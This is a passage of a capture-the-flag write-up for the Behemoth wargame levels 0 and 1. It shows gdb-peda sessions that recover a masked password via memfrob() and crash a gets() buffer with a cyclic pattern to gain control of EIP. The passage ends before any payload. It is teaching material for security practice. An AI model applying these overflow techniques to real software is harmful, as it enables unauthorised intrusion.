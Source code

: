 If we let memfrob() execute and examine this memory location again, we'll see the decrypted password: 

```
gdb-peda$ ni
.
.
.
gdb-peda$ x/s 0xbffff35f
0xbffff35f:  "e■■■■■■■■■s"
```

Let's solve the challenge: 

```
behemoth0@melinda:~$ whoami
behemoth0
behemoth0@melinda:~$ /behemoth/behemoth0  
Password: e■■■■■■■■■s
Access granted..
$ whoami
behemoth1
```

## Level 1

behemoth1 appears to behave similarly to behemoth0 except if we look at it in gdb, we see that there are no branches, and no correct password. Instead we need to exploit the gets() function to overflow a buffer and spawn our own shell. Entering a 100 byte cyclic pattern causes it to crash: 

```
gdb-peda$ r
Password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xb7fbdff4 --> 0x160d7c 
ECX: 0xb7fbe4e0 --> 0xfbad2a84 
EDX: 0xb7fbf360 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41356341 ('Ac5A')
ESP: 0xbffff3c0 ("7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x63413663 ('c6Ac')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x63413663
[------------------------------------stack-------------------------------------]
0000| 0xbffff3c0 ("7Ac8Ac9Ad0Ad1Ad2A")
0004| 0xbffff3c4 ("Ac9Ad0Ad1Ad2A")
0008| 0xbffff3c8 ("d0Ad1Ad2A")
0012| 0xbffff3cc ("1Ad2A")
0016| 0xbffff3d0 --> 0xb7ff0041 (sti)
0020| 0xbffff3d4 --> 0xffffffff 
0024| 0xbffff3d8 --> 0xb7ffeff4 --> 0x1cf2c 
0028| 0xbffff3dc --> 0x8048247 ("__libc_start_main")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x63413663 in ?? ()
```
